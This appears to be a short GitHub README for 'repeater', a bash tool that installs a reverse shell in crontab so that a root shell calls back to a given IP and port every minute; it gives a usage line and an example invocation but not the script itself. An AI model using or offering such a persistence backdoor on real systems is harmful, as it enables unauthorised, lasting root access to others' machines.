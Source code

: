 # repeater
Repeater is a bash program that does a reverse shell in crontab, 
making the shell come back as root every minute.
This program must run in the target machine with root privilages, or with sudo.

Usage:
./repeater.sh <Ip> <Port>

Example:
./repeater.sh 10.10.10.10 9001
 
The author is NOT responsible for the illegal use of this program, all responsibility lies with the user.
